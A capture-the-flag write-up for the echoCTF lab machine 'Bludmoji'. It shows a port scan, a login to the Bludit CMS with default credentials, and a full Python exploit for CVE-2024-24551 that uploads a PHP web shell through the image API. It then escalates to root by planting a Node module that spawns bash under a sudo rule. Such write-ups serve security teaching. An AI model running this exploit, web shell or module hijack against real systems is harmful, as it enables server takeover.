 ```yaml
---
description: >-
  Bludmoji echoCTF Machine
title: Bludmoji (Advanced)                # Add title here
date: 2025-04-28 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Bludmoji.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.217 bludmoji.echocity-f.com
```

### Content

- Default Credentials 
- Remote Code Execution (RCE) through Image API on Bludit

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.217
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.217 ()   Status: Up
Host: 10.0.160.217 ()   Ports: 80/open/tcp//http///
# Nmap done at Sun Apr 20 22:43:56 2025 -- 1 IP address (1 host up) scanned in 212.12 seconds
```

### Exploitation
Checking service HTTP on port 80 I discovered that there is a web application that redirects you to `bludmoji.echocity-f.com`, so first step is to add that entry to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.217 bludmoji.echocity-f.com
```

Simply browsing through the page, there is a link that redirects you to an admin login page:
![](/assets/img/Pasted-image-20250428183332.png)


Searching for this Bludit CMS, there are some default credentials, but none worked except for `admin:admin1234`. Once logged in, and after thoroughly search through the page, there is a very interesting part of the app that catch my attention:
![](/assets/img/Pasted-image-20250428180226.png)

After some research, I found this [github advisory vulnerability](https://github.com/advisories/GHSA-2xxr-prx9-m533) which redirects you to a very well written [exploit for Bludit from RedGuard](https://www.redguard.ch/blog/2024/06/20/security-advisory-bludit/), the most interesting part of such article is this:

![](/assets/img/Pasted-image-20250428180608.png)

Basically, we need to activate the API, which is possible from the Plugins console, upon activation we get the neccessary token:
![](/assets/img/Pasted-image-20250428180759.png)

According with the RedGuard's exploit, an user token is also possible, we found such token under MANAGE > Users > Security option:
![](/assets/img/Pasted-image-20250428181032.png)

Once we get all this information we can run the PoC for CVE-2024-24551: Bludit - Remote Code Execution (RCE) through Image API:
```bash
import argparse
import requests

def upload_image(target, api_token, user_token, file_name, file_content):
    boundary = "BOUNDARY_STRING"

    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}",
        "Connection": "close",
    }

    data = f"""--{boundary}
Content-Disposition: form-data; name="token"

{api_token}
--{boundary}
Content-Disposition: form-data; name="authentication"

{user_token}
--{boundary}
Content-Disposition: form-data; name="uuid"

test
--{boundary}
Content-Disposition: form-data; name="image"; filename="{file_name}"
Content-Type: image/gif

{file_content}
--{boundary}--"""


    url = f"{target}/api/images"
    response = requests.post(
        url,
        headers=headers,
        data=data
    )

    if response.status_code == 200 and response.text.strip() == '{"status":"1","message":"Image extension not allowed."}':
        file_name = "shell.php"
        print(f"{target}/bl-content/tmp/{file_name}?cmd=id")
    else:
        print("Error: Unexpected response from the server.")
        print(response.text)


def main():
    parser = argparse.ArgumentParser(description="Generate and send a POST request.")
    parser.add_argument("--target", required=True, help="Target URL (e.g., http://localhost:8000)")
    parser.add_argument("--api-token", required=True, help="API token")
    parser.add_argument("--user-token", required=True, help="User authentication token")

    args = parser.parse_args()

    file_name = "shell.php"
    file_content = "<?php system($_GET['cmd']); ?>"

    upload_image(args.target, args.api_token, args.user_token, file_name, file_content)

if __name__ == "__main__":
    main()
```

Which actually uploads a shell as follows:
```bash
python3 exploit4.py --target http://bludmoji.echocity-f.com --api-token d48d560c53949da076018fc41e4aeeda --user-token 8305c08bba282636727d561c6ebb2f11
http://bludmoji.echocity-f.com/bl-content/tmp/shell.php?cmd=id
```

Once we visit the page, we got RCE:
![](/assets/img/Pasted-image-20250428181306.png)

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@bludmoji:~/html/bl-content/tmp$ sudo -l
Matching Defaults entries for www-data on bludmoji:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on bludmoji:
    (ALL : ALL) NOPASSWD: /usr/bin/node /app/bin/index.js
```
Its content is like this:
```bash
www-data@bludmoji:~/html/bl-content/tmp$ cat /app/bin/index.js
#! /usr/bin/env node
var args = process.argv.slice(2);
const emoji = require('emoji-poop');
console.log(emoji)

```

The way to escalate privileges is through a path hijacking and abusing write permissions on the imported library by `require()` method, in this case `emoji-poop` is being called without a relative path.

When Node.js does:

```javascript
const emoji = require('emoji-poop');
```

It looks for emoji-poop:
- First in node_modules relative to the script (/app/bin/node_modules/emoji-poop)
- Then walks up the directory tree (e.g., /app/node_modules/emoji-poop, /node_modules/emoji-poop)

So, our attack vector is to create a malicious module:
```bash
mkdir -p /app/node_modules/emoji-poop
echo 'require("child_process").spawn("/bin/bash", {stdio: "inherit"});' > /app/node_modules/emoji-poop/index.js
```

Then run the allowed sudo command:
```bash
www-data@bludmoji:/tmp$ sudo /usr/bin/node /app/bin/index.js
root@bludmoji:/tmp# {}
whoami
root
```

And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`


### Credentials

- Bludit default credentials are `admin:admin1234`

### Notes

- This time, the exploit was very sophisticated and abused a functionality that was disabled by default. It is important to search the GitHub Advisory Database for other lesser-known exploits.

### References

- [github advisory vulnerability](https://github.com/advisories/GHSA-2xxr-prx9-m533)
- [exploit for Bludit RCE from RedGuard](https://www.redguard.ch/blog/2024/06/20/security-advisory-bludit/)

